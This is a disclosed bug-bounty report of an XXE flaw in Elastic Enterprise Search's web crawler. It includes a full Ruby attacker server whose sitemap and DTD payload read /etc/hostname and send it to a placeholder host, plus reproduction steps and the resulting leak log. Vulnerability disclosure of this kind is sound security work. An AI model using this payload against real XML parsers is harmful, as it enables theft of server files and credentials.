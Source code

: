 # XXE in Enterprise Search's App Search web crawler

## Report Details
- **Report ID**: 1156748
- **URL**: https://hackerone.com/reports/1156748
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-04-08T04:42:57.058Z
- **Disclosed**: 2021-04-29T15:05:10.100Z

## Reporter
- **Username**: dee-see
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: elastic

## Vulnerability Information
## Summary

Hello team! The latest version of Enterprise Search (7.12.0) is vulnerable to XXE when [parsing sitemaps](https://www.elastic.co/guide/en/app-search/current/crawl-web-content.html#crawl-web-content-manage-sitemaps). Up to now I'm only able to read file that contain one line. I'm reporting now to avoid duplicates, but I'll keep working to find a way to extract entire files or HTTP request bodies.

## Description

Enterprise Search has a Web Crawler that crawls websites and ingests data to make it searchable. The crawler will look for `robots.txt` files and in that file it will look for the `sitemap` directive. When the sitemap is present, the crawler will parse it and crawl each pages that's listed there.

The code used to parse the site map is vulnerable to XXE. At the time of reporting I'm limited to exfiltrating only files that contain one line and admittedly this is very limiting, but I'm going to keep looking for ways to bypass this limitation. Once bypassed this has the potential to leak very sensitive data and credentials.

## Steps to reproduce

### Attacker Server

This is my attacker server, it's a ruby application that requires `sinatra` (`gem install sinatra`)

```ruby
require 'sinatra'

set :bind, '0.0.0.0'

get '/robots.txt' do

  'User-agent: *
Disallow:

sitemap: /sitemap.xml
'
end

get '/sitemap.xml' do
  content_type 'application/xml'

  '<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE urlset [
<!ENTITY % dtd SYSTEM "http://YOURDOMAIN.COM/exfil.dtd">
%dtd;
%param1;
%exfil;
]>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9" 
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://www.sitemaps.org/schemas/sitemap/0.9 http://www.sitemaps.org/schemas/sitemap/0.9/sitemap.xsd">
<url>
    <loc>&test;</loc>
    <lastmod>2019-06-19</lastmod>
    <changefreq>daily</changefreq>
</url>
</urlset>'
end

get '/exfil.dtd' do
  content_type 'application/xml-dtd'

  '<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % data SYSTEM "file:///etc/hostname">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM \'http://YOURDOMAIN.COM/exfil?%data;\'>">'
end
```

Save that to a file and run it with `ruby server.rb`.


### Enterprise Search

1. Log in to Enterprise Search
1. Click `Launch App Search`
1. Click `Create an Engine`, give it any name and click `Create Engine`
1. Click `Use the Web Crawler`
1. Enter the domain hosting the XXE payload as the `Domain URL`
1. Click `Start a Crawl` and observe your server logs, you should see the hostname of the targetted machine

Running this on an Elastic Cloud instance I got this in my log.

```text
20.55.27.97 - - [08/Apr/2021:04:16:02 UTC] "GET /exfil?d403d12993e0 HTTP/1.1" 404 459
```

Where `d403d12993e0` is the host name of the machine where my instance is running on. I could also reproduce using the on-premise version.

## Impact

At the moment I can read a limited number of files. If I can get around the one line limit I'll be able to read credentials and potentially AWS metadata.

## Attachments
No attachments
